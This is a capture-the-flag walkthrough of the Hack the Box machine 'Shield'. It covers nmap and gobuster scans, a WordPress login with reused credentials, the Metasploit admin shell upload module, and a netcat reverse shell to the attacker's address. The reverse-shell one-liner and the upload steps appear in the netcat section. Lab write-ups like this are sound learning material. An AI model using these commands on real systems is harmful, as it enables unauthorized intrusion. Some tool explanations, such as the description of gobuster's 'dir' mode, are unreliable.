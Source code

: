 # Shield

Welcome to Another walkthrough! This walkthrough will be based on Hack the Box starting point machine "Shield". Remember all links in this walkthrough will lead you to educatonal sources to learn more about the topic I am discussing at that point in time. I will try to do my best to explain everything in detail, but keep in mind I am learning just like you are! I hope this helps you as much as it is going to help me and enjoy your journey! 
# Enumeration
Step 1: Nmap Scan
  - As always we are going to start out with our friendly nmap scan `nmap -sS -A -oN NMAP.txt 10.10.10.29`
    - This command will scan the machine and output the results to a text file "NMAP.txt"
    ![image](https://user-images.githubusercontent.com/29686845/134412007-c23344ed-3160-4531-9386-8df0a3c6ab16.png)
  - We see that two ports are open: Port 80/tcp HTTP and Port 3306/tcp mysql. 

Step 2: Port 80: HTTP
  - Lets check out port 80 the webpage.
      ![image](https://user-images.githubusercontent.com/29686845/134413396-20d418a2-ab0e-4587-8954-1b4b351b3193.png)
    - We seem to land on a [IIS](https://docs.microsoft.com/en-us/troubleshoot/iis/configure-default-document-iis)             starting page. 
      - I tried using burpsuite and checking the webpage source/storage to see if there were any subdirectories we can           gain access too or if there were any cookies we could exploit as we did in the machines Ooopsie & Vaccine.             There was no useful information there either. 
    - Eventhough this doesn't give us much information it does give us an important piece of the puzzle. We now know that       they are running windows server (Just incase you didn't pick that up from the nmap scan). In turn we might need to       run windows commands in the future.
    - Instead lets try using the tool [GoBuster](https://tools.kali.org/web-applications/gobuster).

Step 3: GoBuster
  - [GoBuster](https://tools.kali.org/web-applications/gobuster) is a tool that allows us to brute force URIs or             directories or files in webpages and to brute force DNS sub-domains. 
  - If you dont already have GoBuster installed (which I did not) Run the command `sudo apt install gobuster` 
    - Lets run the command: 
    - `gobuster dir -u http://10.10.10.29/ -w /usr/share/wordlists/dirb/common.txt`
      - lets break down this command down a little bit since we are running a new tool.
      - gobuster: is the tool that we are calling to use
      - dir: is the windows equvalent to ls
      - -u: is to sepcifiy the target URL
      - -w: is to specifiy a wordlist. In this case we are going to use the common.txt.
    - Now we are going to let this run while it brute forces the password so we can get into different directories.           This may take a few minutes to complete.
      ![image](https://user-images.githubusercontent.com/29686845/134419257-79fa5f82-f03d-4b6a-900a-75b400fe5594.png)
    - We see that there is a is another directory /wordpress. so lets add that to our url. 
    - It should loook like `http://10.10.10.29/wordpress` 

# Foothold

Step 1: Word Press. 
  - The wepage seems to be a site advertising an electric truck with a smoke screen despensor and run flat tires. After exploring the page and more specifically exploring their blog we can find a link to log in. 
      ![image](https://user-images.githubusercontent.com/29686845/134676948-446c1e95-6e10-43c7-a2d0-9b0edcbabf26.png)
      ![image](https://user-images.githubusercontent.com/29686845/134677083-ba663149-978f-4dcb-9807-680cff595e87.png)
    - One thing to keep in mind is that the website is using [WordPress](https://wordpress.com/). WordPress is a a           Content Maagement system (CMS) that allows users to spin up a webpage or blog quickly and effiecently.
    - WordPress gerenally uses the username `admin` for the default credentials and since all the starting point             machines seem to follow eachother; we can try previous passwords we have from other machines to see if it works.
    - After some trial and error we find that the username and password is `admin : P@s5w0rd!`
      ![image](https://user-images.githubusercontent.com/29686845/134679391-7eb7bbdb-d230-47ca-a716-360fcead5bcd.png)
    - Now that we have access to the admin page we can look around, but it doesn't seem like we will have much access         to anything useful. 
    - I did some Research on [exploiting WordPress](https://hackertarget.com/attacking-wordpress) and it seems we can         exploit it with Metasploit's [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/)

Step 2: msfconsole
  - Metasploits [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/) is an all in one tool     that provides many different resources for enumertion, exploitation, and much more.
  - based on the exploit that I reviewed which used one of the tools in `exploit/unix/webapp` so i decided I would look     there to see if anyhting of interest. 
    - we can use the command: `search exploit/unix/webapp/wp` to see what options that Metasploit has to offer.
    - The first option we can see is `wp_admin_shell_upload` whcih catches my eye.
      ![image](https://user-images.githubusercontent.com/29686845/134682886-bcee6fc3-69ec-4c87-a47f-0cae241ad3dc.png) 
    - Metasploit offers a a few options that we can use to call this command from our search command: `use 0` or we can       call the whole tool and path with: `use /exploit/unix/webapp/wp_admin_shell_upload`
      - You can only use the `use 0` command after you have done a seaerch. your calling the number of results from our         search, so if you wanted to use a different exploit you would call that numver instead.
  - Now we are going to set some optoins before we run our exploit. This will tell msfconsole the who/what/when/where       to attack with our exploit.
    - `set USERNAME admin`
    - `set PASSWORD P@s5w0rd!`
    - `set TARGETURI /wordpress
    - `set RHOSTS 10.10.10.29`
    - `set LHOST < to your tun0 IP address >` (Forgot this and realized when it wasn't wokring)
      ![image](https://user-images.githubusercontent.com/29686845/134686497-8936a54b-69f9-4fcd-b98b-b7c4f8f300c4.png)
    - We have all of our peramaters set now lets run the exploit. we can type `use` or `exploit` <-- the funniest one         of the two. 
      ![image](https://user-images.githubusercontent.com/29686845/134688488-b5465433-988a-429f-966f-d0d8d2ce9f40.png)
    - Now we have our meterpreter connection and we can get a shell by typing `shell` 
      - shell can be a little finicky at times so we can work with it or we can upgrade our shell with netcat to               provide us with more stable shell.

Step 3: Netcat

  - Kali Linux has builting resources and scripts and we are going to be calling on nc.exe to upgrade our meterpreter       shell.
    - in your kali machine directory `/usr/share/windows-resources/binaries/` you will find the nc.exe. 
    - We can copy that with the `cp` command to any directory you would like and we can call on it withing our               meterpreter as long as we provide the absolute path.
    - Within our meterpreter session lets use the local change directory command (lcd):
    - `lcd /home/splash/HTB/Starting_Point/Shield` this is my direct path to the nc.exe. (you will use yours)
    - still within our meterpreter session we will change the directory to:
    - `\inetpub\wwwroot\wordpress\wp-content\uploads`
    - Now lets upload our nc.exe with `upload nc.exe`
      ![image](https://user-images.githubusercontent.com/29686845/134699318-166baca3-2660-4a5d-b9df-98403840bff9.png)
    - We have our .exe file uploaded, so lets set up a listner and execute it:
    - run our listener `nc -lvnp 1234` in another terminal on your kali machine
    - run `execute -f nc.exe -a "-e cmd.exe 10.10.14.14 1234"` in our meterpreter session. (Keep in mind that is your         tun0 ip and set listening port)
      ![image](https://user-images.githubusercontent.com/29686845/134704321-d793013a-501c-4785-94de-df6ff2c87601.png)
      ![image](https://user-images.githubusercontent.com/29686845/134704375-c84761db-08a2-462c-b7db-2d0b73595884.png)
    - We have successful set up our more stable reverse shell.

# Privilege Escalation

Here is a [cheatsheet](http://www.cs.columbia.edu/~sedwards/classes/2015/1102-fall/Command%20Prompt%20Cheatsheet.pdf) for linux to windows commands. We are going to need it moving forward since we have a shell into a windwos machcine.
